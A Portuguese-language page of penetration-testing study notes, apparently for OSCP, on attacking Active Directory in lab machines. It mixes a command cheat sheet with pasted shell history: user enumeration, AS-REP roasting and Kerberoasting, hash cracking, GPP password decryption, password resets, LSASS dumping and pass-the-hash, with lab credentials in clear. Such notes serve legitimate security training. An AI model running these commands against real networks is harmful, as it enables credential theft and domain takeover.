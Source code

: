 Active Directory
========================

Sumário

[Conceitos](Active%20Directory.md#Conceitos)
[Enumeration](Active%20Directory.md#Enumeration)
## Conceitos

Domain controller é o servidor Active Directory Domain Services. (Serviço do AD)

## 1 - Searching for domain name

#### linux

    enum4linux <ip>

#### windows

    [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
    whoami

### Searching for Domain Controller

#### linux 
    
    nslookup -type=srv _ldap._tcp.dc._msdcs.redecorp.br
    nslookup -type=srv _kerberos._tcp.EXMAPLE.COM
    nslookup -type=srv _kpasswd._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM


#### windows

    nslookup
    set type=all
    _ldap._tcp.dc._msdcs.redecorp.br

    nltest /dclist:oscp.exam

Outra opção seria:

        nltest /dclist:domainname

*Vale considerar que este comando só funciona se a máquina já está no domínio*


## 2 - Enumeration

### Remote
Primeiro temos que enumerar usuários via kerberos ou considerar a enumeração via enum4linux, rpcclient e afins:


    kerbrute userenum -d intelligence.htb --dc <ip> users.txt

### Enum4linux

    enum4linux -a -A <ip>

### RPC

Geralmente aqui conseguimos algum tipo de acesso via RPN Null session ou coisa assim:

    rpcclient -N -U '' <ip>

    srvinfo
    querydominfo
    enumdomusers
    enumdomgroups
    querygroup 0x200

    netshareenum
    netshareenumall

![qownnotes-media-xUjEhj](../../media/qownnotes-media-xUjEhj.png)

### locally

     net user
     net user /domain
     
     net user username /domain




## Get hashes
     
     impacket-GetNPUsers -dc-ip 192.168.175.202 lab.local/ -usersfile users.txt -format john -outputfile hashes
     john --wordlist=/usr/share/wordlists/rockyou.txt hahses
     
      grep --color=auto -rnw * -ie "PASSWORD" --color=always 2> /dev/null

    ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" L4mpje@bastion.htb


    wget https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe

 1976  wget https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
 1977  impacket-smbserver smb .
 1983  wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe
 1984  wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1
 1985  ls
 1986  impacket-smbserver smb .
 1987  ls
 1988  open .
 1989  locate mimikatz
 1992  cp /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/lab/3_exploitation/10_11_1_123/mimikatz .
 1993  cp -r /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/lab/3_exploitation/10_11_1_123/mimikatz .

     smbmap -H 10.129.205.44 -u '' -p ''

     smbclient -U '' -N //10.129.205.44/Replication

    active.htb/
    ls
    cd MACHINE/Preferences/Groups/
    cat Groups.xml 
    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
    
    ##########################
    ## Nao funcionou         #
    ## Sem permissao         #
    ##########################
    impacket-psexec active.htb\svc_tgs:GPPstillStandingStrong2k18@10.129.205.44
    impacket-psexec active.htb\svc_tgs@10.129.205.44
    impacket-psexec active.htb\SVC_TGS@10.129.205.44
    evil-winrm active.htb\SVC_TGS@10.129.205.44
    
    ## Aqui funcionou
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.205.44 -request
    vi hash.txt
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
    impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.205.44


   
 2021  smbmap -H 10.129.245.180 -u '' -p ''

 2024  impacket-GetNPUsers blackfield.local/audit2020 -dc-ip 10.129.245.180 -format john -no-pass
 2025  impacket-GetNPUsers blackfield.local/support -dc-ip 10.129.245.180 -format john -no-pass
 
 2033  john --wordlist=/usr/share/wordlists/rockyout.txt hash.txt 
 2034  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
 
    evil-winrm -i 10.129.245.180 -u support -p '#00^BlackKnight'

    smbclient -L 10.129.245.180 -U 'balckfield.local/support' --password '#00^BlackKnight'

    smbmap -u support -p '#00^BlackKnight' -d 'blackfield.local' -H 10.129.245.180

    rpcclient -c enumdomusers 10.10.204.197 -U 'THM-AD/svc-admin' --password 'management2005'

    rpcclient -U 'blackfield/support' --password '#00^BlackKnight' 10.129.245.180
    setuserinfo2 audit2020 23 'R3dT3@m'
    
    smbclient -U 'blackfield/audit2020' --password 'R3dT3@m' -L 10.129.245.180
    
    pypykatz lsa minidump lsass.DMP
    
    crackmapexec smb 10.129.245.180 -u support -H <hashes>
    
    crackmapexec winrm 10.129.245.180 -u svc_backup -H <hash>